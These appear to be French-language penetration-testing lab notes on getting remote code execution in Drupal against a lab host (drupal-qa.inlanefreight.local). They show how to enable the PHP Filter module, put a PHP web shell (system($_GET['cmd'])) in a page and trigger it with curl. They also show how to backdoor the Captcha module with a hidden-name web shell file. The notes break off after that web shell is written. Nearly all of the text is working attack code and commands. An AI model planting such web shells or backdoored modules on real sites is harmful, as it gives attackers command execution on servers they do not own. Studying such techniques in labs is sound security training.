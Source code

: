 ```shell
curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id | grep uid | cut -f4 -d">"
```

## PHP Filter Module (after version 8)

`Administration` > `Reports` > `Available updates`.

Install from a URL https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz


ou bien 

```shell
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Puis Browse -> php-8.x-1.1.tar.gz -> Install


Content --> Add content -> Basic Page

```php
<?php
system($_GET['cmd']);
?>
```

Text format -> PHP code

### RCE

```shell
curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id | grep uid | cut -f4 -d">"
```


## Uploading a Backdoored Module

> [!TIP]
> Ajouter un shell à un module existant

#### Module Captcha

https://www.drupal.org/project/captcha

1. Télécharger la version tar.gz du module

```shell
wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```

```shell
tar xvf captcha-8.x-1.2.tar.gz
```

2. Créer un webshell bb58021f870b5f85c6c24120540de43f.php

```php
<?php
system($_GET[bb58021f870b5f85c6c24120540de43f]);
?>
```
